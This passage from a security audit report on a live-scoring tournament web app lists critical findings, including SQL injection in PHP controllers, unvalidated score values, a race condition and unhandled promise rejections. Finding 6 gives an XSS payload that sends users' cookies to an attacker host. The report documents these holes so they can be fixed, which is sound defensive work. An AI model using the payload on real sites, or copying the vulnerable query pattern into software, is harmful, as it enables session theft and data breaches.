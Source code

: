 ### 4. SQL Injection Risk in Dynamic Queries
**Severity:** CRITICAL  
**Component:** Backend controllers  
**Files:** `EventController.php`, `MatchController.php`

**Vulnerable Pattern:**
```php
// DANGEROUS: Direct parameter insertion
$query->where('e.name', 'LIKE', "%{$request->search}%");
```

**Risk:** Malicious search queries can:
- Extract sensitive user data
- Modify match results
- Delete tournament records
- Access admin credentials

### 5. Data Integrity Issues in Score Updates
**Severity:** CRITICAL  
**Component:** Live scoring synchronization  
**Impact:** Incorrect match results

**Problem:** No validation for impossible score values:
```javascript
// MISSING VALIDATION
{ team1_score: -999999, team2_score: -999999 } // Accepted!
{ team1_score: 'NaN', team2_score: 'Infinity' } // Processed!
{ team1_score: null, team2_score: undefined } // Causes crashes!
```

### 6. XSS Vulnerability in Player Names
**Severity:** CRITICAL  
**Component:** Player input handling  
**Risk:** Script injection through player/team names

**Attack Vector:**
```javascript
// VULNERABLE: Direct HTML insertion
playerName: '<script>document.location="http://attacker.com/steal?cookie="+document.cookie</script>'
```

### 7. Concurrent Update Race Condition
**Severity:** CRITICAL  
**Impact:** Match state corruption

**Scenario:** Multiple admins updating same match simultaneously leads to:
- Lost score updates
- Inconsistent map results  
- Corrupted tournament brackets
- Invalid match completion states

### 8. Unhandled Promise Rejections
**Severity:** CRITICAL  
**Component:** API error handling  
**Lines:** Multiple locations in `ComprehensiveLiveScoring.js`
